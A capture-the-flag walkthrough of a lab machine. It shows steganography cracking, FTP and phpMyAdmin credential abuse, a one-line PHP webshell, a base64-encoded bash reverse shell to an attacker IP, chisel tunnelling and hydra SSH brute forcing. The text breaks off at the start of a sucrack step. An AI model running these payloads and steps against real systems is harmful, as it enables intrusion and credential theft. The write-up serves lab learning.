## TL;DR

In this challenge we find the `ftp` credentials hidden inside the image we get at `announcements`. we login to the ftp service and find `wp-config.php`, which then leads us to `phpmyadmin`. There we can find subdomain `subdomain.adana.thm`, and upload webshell via `ftp`, to get `RCE` as user www-data.

Net we brute force the password of user `hakanbey`, based on known prefix and given wordlist.

Lastly, we reversing the SUID binary `/usr/bin/binary`, and find the password of root inside `root.jpg`.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `21` with ftp and port `80` with apache http server
```bash
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.3
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Hello World &#8211; Just another WordPress site
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: WordPress 5.6
Service Info: OS: Unix
```
I added `differentctf.thm` to my `/etc/hosts`.

### Find ftp credentials in steghide inside the image when the passphrase is from wordlist.txt

I started with `ffuf`, to enumerate endpoints:
```bash
┌──(agonen㉿kali)-[~/thm/DifferentCTF]
└─$ ffuf -u "http://differentctf.thm/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403  

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://differentctf.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

announcements           [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 159ms]
index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 196ms]
javascript              [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 196ms]
phpmyadmin              [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 153ms]
wp-admin                [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 153ms]
wp-includes             [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 162ms]
wp-content              [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 165ms]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 199ms]
:: Progress: [4750/4750] :: Job [1/1] :: 252 req/sec :: Duration: [0:00:27] :: Errors: 0 ::
```

Okay, we found `announcements` and `phpmyadmin`. In addition, we can see this is wordpress CMS.



I went to `http://differentctf.thm/announcements/`, and found the file `wordlist.txt`, let's download it, we might use it.



It seems like the hostname should be `adana.thm`, so let's change it on the `/etc/hosts`.

Inside the `announcements`, we can find also an image


I found it has hidden data, we need to use `stegseek` with the wordlist to crack the password:
```bash
┌──(agonen㉿kali)-[~/thm/DifferentCTF]
└─$ steghide --info austrailian-bulldog-ant.jpg
"austrailian-bulldog-ant.jpg":
  format: jpeg
  capacity: 3.6 KB
Try to get information about embedded data ? (y/n) 

                                                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/DifferentCTF]
└─$ steghide --info austrailian-bulldog-ant.jpg
"austrailian-bulldog-ant.jpg":
  format: jpeg
  capacity: 3.6 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
steghide: could not extract any data with that passphrase!
                                                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/DifferentCTF]
└─$ stegseek austrailian-bulldog-ant.jpg -wl wordlist.txt   
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "123adanaantinwar"
[i] Original filename: "user-pass-ftp.txt".
[i] Extracting to "austrailian-bulldog-ant.jpg.out".
the file "austrailian-bulldog-ant.jpg.out" does already exist. overwrite ? (y/n) 
y
                                                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/DifferentCTF]
└─$ cat austrailian-bulldog-ant.jpg.out
RlRQLUxPR0lOClVTRVI6IGhha2FuZnRwClBBU1M6IDEyM2FkYW5hY3JhY2s=
                                                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/DifferentCTF]
└─$ cat austrailian-bulldog-ant.jpg.out | base64 -d
FTP-LOGIN
USER: hakanftp
PASS: 123adanacrack
```



Okay, we got this info:
```bash
FTP-LOGIN
USER: hakanftp
PASS: 123adanacrack
```

### Find subdomain for phpmyadmin and add webshell to get RCE as user www-data

I downloaded all files using `wget -m ftp://hakanftp@adana.thm/ --password 123adanacrack`.


we can see inside `wp-config.php` credentials for the phpmyadmin:

and found out the data:
```php
// ** MySQL settings - You can get this info from your web host ** //                                                                                                                        
/** The name of the database for WordPress */                                                                                                                                                
define( 'DB_NAME', 'phpmyadmin1' );                                                                                                                                                          
                                                                                                                                                                                             
/** MySQL database username */                                                                                                                                                               
define( 'DB_USER', 'phpmyadmin' );                                                                                                                                                           
                                                                                                                                                                                             
/** MySQL database password */                                                                                                                                                               
define( 'DB_PASSWORD', '12345' );                                                                                                                                                            
                                                                                                                                                                                             
/** MySQL hostname */                                                                                                                                                                        
define( 'DB_HOST', 'localhost' );
```

using the credentials, we can login to the `phpmyadmin`:
```bash
phpmyadmin:12345
```



Since we control the phpmyadmin, I updated the password of `wp_users` to be the password from `phpmyadmin1`, table users.

So, if this was the old password:



The next password will be the hash of `12345`, which is `$P$BEyLE6bPLjgWQ3IHrLu3or19t0faUh.`.

So, we can update using this query:
```sql
UPDATE `wp_users` SET `user_pass`='$P$BEyLE6bPLjgWQ3IHrLu3or19t0faUh.' WHERE 1 
```



and now login to the wordpress using this credentials:
```bash
hakanbey01:12345
```



Now, just update `404.php`, at `http://adana.thm/wp-admin/theme-editor.php?file=404.php&theme=twentynineteen`, and add our webshell code:
```php
echo `$_GET[0]`;
```

However, this isn't working. for some reason we don't have write permissions on the files, and acctually we can't access the files of this wordpress website, since we can only login via the webserver, but not using `ftp`.

So, We can go back to `phpmyadmin`, and see that inside the database `phpmyadmin1`, which is the db we managed to login via ftp, there is table `wp_options`:



```bash
siteurl 	http://subdomain.adana.thm
```

Okay, let's first add this subdomain to our `/etc/hosts`:



and now, we can upload our webshell via the ftp client, and get reverse shell. This will be our webshell:
```bash
┌──(agonen㉿kali)-[~/thm/DifferentCTF]
└─$ cat webshell.php 
<?php echo `$_GET[0]`; ?>
```

now, connect to ftp and upload it:
```bash
┌──(agonen㉿kali)-[~/thm/DifferentCTF]
└─$ ftp hakanftp@adana.thm # the password is 123adanacrack              
Connected to adana.thm.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put webshell.php
local: webshell.php remote: webshell.php
229 Entering Extended Passive Mode (|||7617|)
150 Ok to send data.
100% |****************************************************************************************************************|    26      416.23 KiB/s    00:00 ETA
226 Transfer complete.
26 bytes sent in 00:00 (0.07 KiB/s)
```



Notice we also need to execute this command on the ftp service:
```bash
chmod 777 webshell.php
```

now we can visit the page and get our `RCE`:
```bash
http://subdomain.adana.thm/webshell.php?0=id
```



and paste the payload from `penelope`:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
``` 



and we can grab the web flag:
```bash
www-data@ubuntu:/var/www/html$ cat wwe3bbfla4g.txt 
THM{343a7e2064a1d992c01ee201c346edff}
```

### Brute force password for user hakanbey

I tried to find common ways to escalate privileges, but i didn't find nothing. I found the user `hakanbey`, however, i don't know its password.

Since we already found the passphrase for the image, which is `123adanaantinwar`, and also the password for `hakanftp`, which is `123adanacrack`, we can recognize a pattern. 
It looks like there is some prefix of `123adana`, and then some word. Maybe the word is being taken from the `wordlist.txt` we found before.

So, first let's create our new wordlist, using the `sed` command:
```bash
sed 's/^/123adana/' wordlist.txt  > wordlist_edited.txt
```



Okay, our first way will be using port forwarding and brute forcing the ssh port:

First, and local machine set up the chisel server:
```bash
chisel server --reverse -p 1234
```

Then, on the remote machine, forward `127.0.0.1:22` to port `2222` on the server:
```bash
www-data@ubuntu:/tmp$ ./chisel-xDJjIHQS client 192.168.164.248:1234 R:2222:127.0.0.1:22
2025/12/17 21:11:05 client: Connecting to ws://192.168.164.248:1234
2025/12/17 21:11:06 client: Connected (Latency 159.170638ms)
```

Finally, execute `hydra` to brute force the password:
```bash
┌──(agonen㉿kali)-[~/thm/DifferentCTF]                                                                                                                                                                                                                                        
└─$ hydra -l hakanbey -P wordlist_edited.txt ssh://localhost:2222 -I                                                                                                                                                                                                          
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).                                                               
                                                                                                                                                                                                                                                                              
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-17 23:13:57                                                                                                                                                                                            
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4                                                                                                                                                         
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore                                                                                   
[DATA] max 16 tasks per 1 server, overall 16 tasks, 50000 login tries (l:1/p:50000), ~3125 tries per task                                                                                    
[DATA] attacking ssh://localhost:2222/                                                                                                                                                       
[STATUS] 310.00 tries/min, 310 tries in 00:01h, 49692 to do in 02:41h, 14 active                                  
[STATUS] 280.00 tries/min, 840 tries in 00:03h, 49165 to do in 02:56h, 11 active                                  
[STATUS] 231.86 tries/min, 1623 tries in 00:07h, 48382 to do in 03:29h, 11 active                                 
[2222][ssh] host: localhost   login: hakanbey   password: 123adanasubaru                                          
1 of 1 target successfully completed, 1 valid password found                                                      
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected                                                       
[ERROR] 0 target did not complete                                                                                 
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-12-17 23:25:37┌──(agonen㉿kali)-[~/thm/DifferentCTF]                                                                                                                                                                                                                                        
└─$ hydra -l hakanbey -P wordlist_edited.txt ssh://localhost:2222 -I                                                                                                                                                                                                          
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).                                                               
                                                                                                                                                                                                                                                                              
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-17 23:13:57                                                                                                                                                                                            
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4                                                                                                                                                         
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore                                                                                   
[DATA] max 16 tasks per 1 server, overall 16 tasks, 50000 login tries (l:1/p:50000), ~3125 tries per task                                                                                    
[DATA] attacking ssh://localhost:2222/                                                                                                                                                       
[STATUS] 310.00 tries/min, 310 tries in 00:01h, 49692 to do in 02:41h, 14 active                                  
[STATUS] 280.00 tries/min, 840 tries in 00:03h, 49165 to do in 02:56h, 11 active                                  
[STATUS] 231.86 tries/min, 1623 tries in 00:07h, 48382 to do in 03:29h, 11 active                                 
[2222][ssh] host: localhost   login: hakanbey   password: 123adanasubaru                                          
1 of 1 target successfully completed, 1 valid password found                                                      
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected                                                       
[ERROR] 0 target did not complete                                                                                 
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-12-17 23:25:37
```

and we found the credentials:
```bash
hakanbey:123adanasubaru
```



another way, which is much faster, is to download the tool `sucrack` from [https://github.com/hemp3l/sucrack](https://github.com/hemp3l/sucrack), then on the remote machine execute the commands:
```bash
